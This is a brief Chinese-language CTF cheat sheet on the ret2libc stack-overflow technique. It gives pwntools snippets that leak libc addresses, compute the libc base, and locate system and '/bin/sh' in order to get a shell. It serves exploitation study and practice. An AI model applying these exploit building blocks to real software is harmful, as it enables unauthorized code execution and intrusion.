 ```yaml
---
title: ret2libc
category: 栈溢出
---
```


# 一般步骤

1. 泄露 libc 地址
2. 计算 libc 基址与其他函数的地址
3. get shell

# 代码片段

## 接收泄露信息

### libc 地址
- 32 位程序

```python
address = u32(io.recvuntil('\xf7')[-4:])
log.success('address -> ' + hex(address))
```

- 64 位程序

```python
address = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('address -> ' + hex(address))
```

## 计算 libc 基址与其他函数的地址

- ELF

```python
libc_base = address - libc.sym['function_name']
system_addr = libc_base + libc.sym['system']
str_bin_sh = libc_base + libc.search('/bin/sh').next()
log.success('libc_base -> ' + hex(libc_base))
```

- LibcSearcher

```python
libc = LibcSearcher('function_name', address)
libc_base = address - libc.dump('function_name')
system_addr = libc_base + libc.dump('system')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
log.success('libc_base -> ' + hex(libc_base))
```

# 注意事项

- 下载题目文件时应注意文件中是否提供了相应的 libc 文件。若已提供相应的 libc 文件，则在调试时使用 pwntools 的 ELF 函数直接绑定该 libc。若没有提供相应的 libc 文件，则需要使用 LibcSearcher 库进行 libc 匹配。
